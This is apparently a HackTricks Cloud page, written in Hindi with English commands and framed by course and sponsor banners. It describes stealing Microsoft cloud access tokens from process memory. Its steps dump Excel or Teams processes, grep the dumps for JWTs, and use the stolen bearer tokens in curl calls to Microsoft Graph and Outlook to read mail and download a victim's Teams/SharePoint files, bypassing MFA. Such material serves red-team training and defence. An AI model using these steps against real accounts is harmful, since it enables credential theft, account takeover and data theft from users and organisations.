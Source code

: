 # Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Basic Information**

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=OHKZkXC4Duw) में समझाया गया है, कुछ Microsoft सॉफ़्टवेयर जो क्लाउड के साथ समन्वयित होते हैं (Excel, Teams...) **स्मृति में स्पष्ट-टेक्स्ट में एक्सेस टोकन स्टोर कर सकते हैं**। इसलिए केवल प्रक्रिया की **स्मृति** को **डंप** करना और **JWT टोकन के लिए grep करना** आपको क्लाउड में पीड़ित के कई संसाधनों तक पहुंच प्रदान कर सकता है, MFA को बायपास करते हुए।

चरण:

1. अपने पसंदीदा टूल के साथ EntraID उपयोगकर्ता के साथ समन्वयित एक्सेल प्रक्रियाओं को डंप करें।
2. चलाएँ: `string excel.dmp | grep 'eyJ0'` और आउटपुट में कई टोकन खोजें
3. उन टोकनों को खोजें जो आपको सबसे अधिक रुचिकर लगते हैं और उनके ऊपर टूल चलाएँ:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**ध्यान दें कि इस प्रकार के एक्सेस टोकन अन्य प्रक्रियाओं के अंदर भी पाए जा सकते हैं।**

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
